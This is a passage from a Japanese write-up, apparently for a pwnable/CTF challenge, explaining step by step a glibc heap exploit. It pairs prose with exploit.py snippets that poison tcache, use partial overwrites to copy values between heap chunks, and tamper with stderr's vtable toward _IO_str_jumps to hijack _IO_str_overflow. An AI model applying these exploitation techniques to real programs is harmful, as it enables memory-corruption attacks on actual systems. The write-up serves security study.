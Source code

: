 ```python: exploit.py#L109
```
次にchunkD.mchunk_sizeをsrcに対応するサイズに書き変えてfreeする。これでsrcの値xがchunkD.fdに書き込まれるのでコメントにあるような状態になる。
```python: exploit.py#L115
    read('C', pad18h + size_chunk(src))
    # src: D -> x
    # dst: D -> x
    free('D')
```
次にsrcに対応するサイズをmallocする。これでsrcは元の状態に戻る。dstにはchunkDが繋がっており、chunkD.fdはsrcにあった値xになっている。この値を第三引数で渡されたtamperでpartial overwriteする。これによりsrcにあった値xから書き込みたい値x\`を作り出すことができる。
後はdstに対応するサイズをmallocすればdstに書き込みたい値x\`が書き込まれる。
```python: exploit.py#120
    # src: x
    # dst: D -> x
    malloc('D', size_malloc(src))

    # src: x
    # dst: D -> x`
    read('C', pad18h + size_chunk(dst) + tamper) 
    
    # src: x
    # dst: x'
    malloc('D', size_malloc(dst))
```
最後の処理はchunkD,chunkEを使いまわすために必要な処理である。まずchunkD.mchunk_sizeを本来のサイズである0x20バイトに書き変えている。chunkIにはchunkDのアドレスが入っていることを思い出せばchunkI, chunkDをfreeすることでtcache(0x20)用がコメントにあるような状態になることが分かる。次にchunkD.fdをpartial overwriteによりchunkEのアドレスに書き変えている。これによりtcache(0x20)用にはchunkD,chunkEが繋がれることになる。後は0x20バイトをmallocすればchunkD, chunkEが返りheapは元の状態に戻る。
```python: exploit.py#L132
    # tcache(0x20用): D -> D
    read('C', pad18h + pack(0x21))
    free('I')
    free('D')

    # tcache(0x20用): D -> E
    read('C', pad18h + pack(0x21) + pack(0xe0)[:1])
    malloc('D', 0x10)
    malloc('E', 0x10)
```
以下ではこれらの関数を使ってstderrを改竄する。
まずcopy関数を使ってvtableを&_IO_str_jumps - 0x20に書き変える。0x20を引いている理由は後述する。最終的な目標は_s._allocate_bufferを呼び出すことだった。_s._allocate_bufferを呼び出している箇所(_IO_str_overflowの106行目)の前の処理を見てみると以下のようになっている。
```c: libio/strops.c#L93
  pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))
    {
      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
	return EOF;
      else
       {
        // この中で_s._allocate_bufferが呼び出される。
       }
```


[^1]: 草野 一彦「解題pwnable」(https://amzn.asia/d/1JasEUa)